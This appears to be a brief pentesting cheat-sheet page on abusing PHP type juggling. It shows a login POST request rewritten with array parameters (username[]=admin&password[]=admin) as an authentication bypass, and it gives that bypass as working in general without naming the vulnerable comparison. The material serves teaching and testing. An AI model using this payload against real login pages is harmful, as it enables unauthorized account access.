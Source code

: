 # PHP - Abuse PHP Type Juggling

Type Juggling is a feature of PHP that automatically converts between different data types during comparison and arithmetic operations. It simplifies data comparison but introduces potential security risks, especially if the user input is not properly validated or sanitized.

Here we found how this can be exploited:

* Imagine we caught a petition from a login page that sends the _username_ and _password_ values as parameters

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>POST /login.php HTTP 1.1
</strong><strong>...
</strong>username=admin&#x26;password=admin
</code></pre>

***

* We could modify the petition to change the data type of the parameters

{% code overflow="wrap" lineNumbers="true" %}
```bash
POST /login.php HTTP 1.1
...
username[]=admin&password[]=admin #Example converting strings into arrays
```
{% endcode %}

{% hint style="info" %}
This will bypass the authentication as the values are now evaluated as arrays changing the logic of the comparison
{% endhint %}

